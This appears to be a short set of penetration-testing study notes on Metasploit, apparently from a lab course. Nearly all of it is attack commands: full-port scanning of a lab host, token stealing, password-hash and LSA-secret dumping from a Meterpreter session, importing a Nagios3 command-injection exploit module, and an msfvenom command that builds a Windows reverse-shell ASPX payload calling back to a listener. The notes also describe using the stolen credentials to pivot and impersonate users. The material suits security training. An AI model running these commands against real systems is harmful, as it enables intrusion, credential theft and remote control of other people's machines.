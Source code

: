 # Meterpreter
MSF scanning target
msf6: `db_nmap -sV -p- -T5 -A 10.10.10.15`
We can thereafter query for `services` or `hosts`

We can steel tokens with `steal_token <nr>`

we can get suggestions for exploits: `post/multi/recon/local_exploit_suggester  `
We can get user id from session: `meterpreter > getuid`

### MSF - Dumping Hashes
`meterpreter > hashdump`
`lsa_dump_sam`

### MSF - Meterpreter LSA Secrets Dump
`meterpreter > lsa_dump_secrets`

From this point, if the machine was connected to a more extensive network, we could use this loot to pivot through the system, gain access to internal resources and impersonate users with a higher level of access if the overall security posture of the network is weak.

# Writing and Importing Modules
If we cannot find the exploit we're looking for, 
search in cli: `searchsploit nagios3 (name)`
Filter: `searchsploit -t Nagios3 --exclude=".py"`

Adding modules live: `cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb`
`msfconsole -m /usr/share/metasploit-framework/modules/`
`loadpath /usr/share/metasploit-framework/modules/`

```bash
msf6 > reload_all
msf6 > use exploit/unix/webapp/nagios3_command_injection 
msf6 exploit(unix/webapp/nagios3_command_injection) > show optio
```

# MSFVenom
Generate payload using `msfvenom`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx`
